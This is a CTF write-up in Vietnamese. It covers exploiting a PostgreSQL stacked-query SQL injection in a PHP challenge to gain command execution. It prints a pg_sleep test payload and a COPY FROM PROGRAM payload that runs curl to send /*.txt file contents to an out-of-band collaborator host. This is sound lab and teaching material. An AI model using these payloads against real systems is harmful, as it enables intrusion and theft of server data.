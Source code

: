 Baby SQL Injection to RCE
![image](https://hackmd.io/_uploads/SyeWZedVA.png)

# 1. Brainstorm:
## Thông tin đề bài cho
* Server dùng dbms là Postgre,php và Nginx
* Mục tiêu là file /flagXXXX.txt (XXXX là random nha)
* Câu query:
![image](https://hackmd.io/_uploads/BJ7YZx_VR.png)
#### Không parameterized query -> SQLi được

## Kiểm tra xem có thể thực hiện stacked query trên dbms không bằng payload:
#### ' or 1=1; select pg_sleep(10); --

Oke, dính rồi
#### --> Có thể stacked query được

## Đề bài hỏi có execute được os command không ? 
Vậy thì hint đây rồi, tìm cách rce bằng os command.
Tìm được payload như sau
![image](https://hackmd.io/_uploads/H1kIkWdNC.png)

# 2. Exploit:
## Phân tích payload
* Ý tưởng của payload là tạo 1 table cmd_exec với column là cmd_output dùng để lưu data của os command được thực thi
* OS command sẽ được thực thi nhờ hàm Copy FROM PROGRAM và lưu vào bên trong cmd_exec table đã tạo
* Sau đó sẽ gọi ra nhờ vào SELECT * FROM cmd_exec
## Craft payload
Không thể in trực tiếp dữ liệu của table ra được vì trong code php trả về cho client chỉ in ra $messenger lấy từ $username nhập vào (Nghĩa là ở đây chỉ in ra câu payload) 
#### --> Đây là Blind SQL Injection. Vậy thì mình out-bound data ra ngoài webhook hoặc burp collaborator thôi.
## POC
#### Payload: 
#### ' OR 1=1; COPY cmd_exec FROM PROGRAM 'curl -X POST --data "data=`cat /*.txt`" 7s0mfarpjzoo6ejxf17tb9ehe8kz8uwj.oastify.com'; --

![POC Baby SQL Injection to RCE 1](https://hackmd.io/_uploads/B1jpzbONC.jpg)
![POC Baby SQL Injection to RCE 2](https://hackmd.io/_uploads/Sy5pfZ_E0.jpg)

## Ngoài lề
Trước khi mình out-bound thì mình đã thử arbitrary write file nhưng có vẻ chỉ có superuser mới có quyền write file :v

